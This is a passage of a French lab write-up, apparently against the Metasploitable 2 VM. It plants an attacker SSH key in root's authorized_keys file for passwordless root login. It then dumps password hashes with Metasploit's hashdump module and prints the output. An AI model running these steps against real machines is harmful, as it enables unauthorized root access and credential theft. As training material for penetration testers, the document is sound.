 On a notre clé publique `key.pub`.

```bash
$ cat key.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDgywhSCe4R2A9REn9oMGpmLa6
esXrAXNNyhkFcMYtYPHgq0Zswmdyrs3NQclWNVpkc+ZfEenvxY1xJ0xDef2b2XI
xundfNeNiYKuHcwsmY5rlSE1IlmnegCoB12JaUIYNZXCwNiVEby53sz/vYelHSB
vY7wdt9/cJJR7tEosWRR3YkkVEc469wlSnGJ98iu8IdnQz++6EG1612ZE9su07v
8HCD+OAZpa05fbB6R5PrCAQcMEWCRvIV2qZRo+hR2D/Pp0QMo7MNbuf4nMNfUty
u4viXJtwa3MCS53axirWPmw8oZqAqW3rFXNLQrIuoXwMl3oyWeC+A63VWdiNXom
gvYdstdNA43yVxBK2EnbOLTydu0R0OW9DeKpG7B/fj5WTFgU8iQT/JX7Bw/RfcR
gg2oOEuJ8R+cItNop6zIFdFX0g0GogEUc1HgjhcW3+CoutoEkRUgBaX88VblyRK
ng90pkYtVLPJfWrznvRWnsafQHsiZDxL7Qy//vdRY3z4c6s= user@parrot-vi
rtual                                                          
```

On peut ajouter notre clé publique au fichier `authorized_keys` de la machine distante.

```zsh
┌─[root@parrot-virtual]─[/home/user/meta2/share/root/.ssh]
└──╼ #echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDgywhSCe4R2A9
REn9oMGpmLa6esXrAXNNyhkFcMYtYPHgq0Zswmdyrs3NQclWNVpkc+ZfEenvxY1
xJ0xDef2b2XIxundfNeNiYKuHcwsmY5rlSE1IlmnegCoB12JaUIYNZXCwNiVEby
53sz/vYelHSBvY7wdt9/cJJR7tEosWRR3YkkVEc469wlSnGJ98iu8IdnQz++6EG
1612ZE9su07v8HCD+OAZpa05fbB6R5PrCAQcMEWCRvIV2qZRo+hR2D/Pp0QMo7M
Nbuf4nMNfUtyu4viXJtwa3MCS53axirWPmw8oZqAqW3rFXNLQrIuoXwMl3oyWeC
+A63VWdiNXomgvYdstdNA43yVxBK2EnbOLTydu0R0OW9DeKpG7B/fj5WTFgU8iQ
T/JX7Bw/RfcRgg2oOEuJ8R+cItNop6zIFdFX0g0GogEUc1HgjhcW3+CoutoEkRU
gBaX88VblyRKng90pkYtVLPJfWrznvRWnsafQHsiZDxL7Qy//vdRY3z4c6s= us
er@parrot-virtual' >> authorized_keys 
```

Et on peut ensuite se connecter en tant que root sans mot de passe sur la machine distante.

```bash
ssh -i key root@192.168.56.115
```

# Récupérer des hashs

## Avec Metasploit

Si vous avez une session avec l'utilisateur `root`, vous pouvez utiliser Metasploit pour récupérer les hashs des mots de passe utilisateurs.

```bash
msf6 > use post/linux/gather/hashdump

msf6 post(linux/gather/hashdump) > set SESSION 6
SESSION => 6

msf6 post(linux/gather/hashdump) > run

[+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
[+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
[+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
[+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /home/formation/.msf4/loot/20210519095541_default_10.10.11.32_linux.hashes_513726.txt
[*] Post module execution completed
```
